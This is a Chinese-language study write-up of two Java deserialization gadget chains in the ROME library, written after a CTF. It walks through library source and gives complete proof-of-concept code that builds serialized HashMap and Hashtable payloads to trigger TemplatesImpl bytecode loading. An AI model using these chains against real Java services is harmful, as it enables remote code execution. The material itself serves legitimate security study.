

# 前言

也算是忙里偷闲了，看了一下午的操作系统感觉自己就是傻子。。。晚上把前段时间的战疫比赛遇到的rome的反序列化链给学习了一下，之后应该还是继续课内的学习，除了打打比赛，其他的学习得等到寒假了。


# 链子1分析

从网上找了利用链：

```java
TemplatesImpl.getOutputProperties()
NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
NativeMethodAccessorImpl.invoke(Object, Object[])
DelegatingMethodAccessorImpl.invoke(Object, Object[])
Method.invoke(Object, Object...)
ToStringBean.toString(String)
ToStringBean.toString()
ObjectBean.toString()
EqualsBean.beanHashCode()
ObjectBean.hashCode()

HashMap<K,V>.hash(Object)
HashMap<K,V>.readObject(ObjectInputStream)
```

跟着看一下吧，`HashMap`那里肯定就是为了调用`hashCode`，直接跟进`ObjectBean`的`hashCode`：

```java
    public int hashCode() {
        return _equalsBean.beanHashCode();
    }
```

跟进`beanHashCode()`：

```java
    public int beanHashCode() {
        return _obj.toString().hashCode();
    }
```

调用了`_obj`的`toString()`，这也是继`BadAttributeValueExpException`之后的又一个利用`toString()`触发调用链的。

还需要看一下`ObjectBean`中的`_toStringBean`属性，它的类是`ToStringBean`，当调用`ObjectBean`对象的`toString`时，实际上是调用`ToStringBean`对象的`toString`：

```java
    public String toString() {
        Stack stack = (Stack) PREFIX_TL.get();
        String[] tsInfo = (String[]) ((stack.isEmpty()) ? null : stack.peek());
        String prefix;
        if (tsInfo==null) {
            String className = _obj.getClass().getName();
            prefix = className.substring(className.lastIndexOf(".")+1);
        }
        else {
            prefix = tsInfo[0];
            tsInfo[1] = prefix;
        }
        return toString(prefix);
    }
```

截取个`prefix`，然后继续跟进带参数的`toString(prefix)`：

```java
    private String toString(String prefix) {
        StringBuffer sb = new StringBuffer(128);
        try {
            PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
            if (pds!=null) {
                for (int i=0;i<pds.length;i++) {
                    String pName = pds[i].getName();
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
                        printProperty(sb,prefix+"."+pName,value);
                    }
                }
            }
        }
        catch (Exception ex) {
            sb.append("\n\nEXCEPTION: Could not complete "+_obj.getClass()+".toString(): "+ex.getMessage()+"\n");
        }
        return sb.toString();
    }
```

关键就是`BeanIntrospector.getPropertyDescriptors(_beanClass);`这行代码，它获取类的属性的getter和setter，稍微跟进去看看一些处理就知道了：

```java
    private static PropertyDescriptor[] getPDs(Class klass) throws IntrospectionException {
        Method[] methods = klass.getMethods();
        Map getters = getPDs(methods,false);
        Map setters = getPDs(methods,true);
        List pds     = merge(getters,setters);
        PropertyDescriptor[] array = new PropertyDescriptor[pds.size()];
        pds.toArray(array);
        return array;
    }
```

 

之后下面的调用都懂了：

```java
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
```

获取对应的`Method`，如果它是无参的就调用了。

所以rome链的后面这部分利用其实就类似于`CommonsBeanutils`的链了，调用`TemplatesImpl`的`getOutputProperties`进行动态加载字节码来实现命令执行。


所以直接尝试构造POC就可以了，比较简单：

```java
package com.summer.rome;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.util.HashMap;

public class RomeUn {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);

        ObjectBean objectBean = new ObjectBean(String.class,"feng");


        HashMap evilMap = new HashMap();
        evilMap.put(objectBean,1);
        evilMap.put(objectBean,1);
        
        SerializeUtil.setFieldValue(objectBean,"_equalsBean",equalsBean);


        byte[] bytes = SerializeUtil.serialize(evilMap);
        SerializeUtil.unserialize(bytes);
    }
}

```


```java
package com.summer.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static Object getFieldValue(Object obj, String fieldName) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```


网上的链子似乎有个多余的点，它调用`_obj`的`toString`调用的是`ObjectBean`的`toString`来触发，没有这个必要，直接触发`ToStringBean`的`toString`即可。

同样的，为了防止`put`的时候触发反序列化，先放进去无害的，`put`完之后再利用反射来修改`_equalsBean`为恶意的。




# 链子2分析

链子2来自Jiang师傅，最后利用点是在`EqualsBean`中：

```java
    public boolean beanEquals(Object obj) {
        Object bean1 = _obj;
        Object bean2 = obj;
        boolean eq;
        if (bean2==null) {
            eq = false;
        }
        else
        if (bean1==null && bean2==null) {
            eq = true;
        }
        else
            if (bean1==null || bean2==null) {
                eq = false;
            }
            else {
                if (!_beanClass.isInstance(bean2)) {
                    eq = false;
                }
                else {
                    eq = true;
                    try {
                        PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
                        if (pds!=null) {
                            for (int i = 0; eq && i<pds.length; i++) {
                                Method pReadMethod = pds[i].getReadMethod();
                                if (pReadMethod!=null && // ensure it has a getter method
                                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                                    Object value1 = pReadMethod.invoke(bean1, NO_PARAMS);
                                    Object value2 = pReadMethod.invoke(bean2, NO_PARAMS);
                                    eq = doEquals(value1, value2);
                                }
                            }
                        }
                    }
                    catch (Exception ex) {
                        throw new RuntimeException("Could not execute equals()", ex);
                    }
                }
            }
        return eq;
    }
```

和`ToStringBean`最后那里有类似的作用。

需要`_obj`和`obj`类相同（可以这样认为，具体看代码的那个instance of）。`equals`方法正好调用了：

```java
    public boolean equals(Object obj) {
        return beanEquals(obj);
    }
```

和CC7的前半部分思路一样，CC7之后再去看了。

主要是Hashtable反序列化的时候调用了`reconstitutionPut`：

```java
    private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

需要hash相同才能进入`e.key.equals`。让`e.key`是`HashMap`：

```java
    public boolean equals(Object o) {
        if (o == this)
            return true;

        if (!(o instanceof Map))
            return false;
        Map<?,?> m = (Map<?,?>) o;
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    if (!value.equals(m.get(key)))
                        return false;
                }
            }
        } catch (ClassCastException unused) {
            return false;
        } catch (NullPointerException unused) {
            return false;
        }

        return true;
    }
```

最后`if (!value.equals(m.get(key)))`触发。

对于hashCode的相同，用的是Java的trick：

```java
        System.out.println("yy".hashCode());//3872
        System.out.println("zZ".hashCode());//3872
```

学习了学习了。


直接给POC了，Jiang宝nb：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","f");
        //SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        EqualsBean bean = new EqualsBean(String.class,"feng");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",bean);
        map1.put("zZ",templates);
        map2.put("zZ",bean);
        map2.put("yy",templates);
        Hashtable table = new Hashtable();
        table.put(map1,"1");
        table.put(map2,"2");
        SerializeUtil.setFieldValue(bean,"_beanClass",Templates.class);
        SerializeUtil.setFieldValue(bean,"_obj",templates);
        byte[] data = SerializeUtil.serialize(table);
        SerializeUtil.unserialize(data);
```


# 总结

好久没看Java的反序列化了，一开始看起来去回忆之前的内容也花了一些时间，稍微把动态加载字节码还有`CommonsBeanutils`给回忆起来就会发现这条链子非常简单了。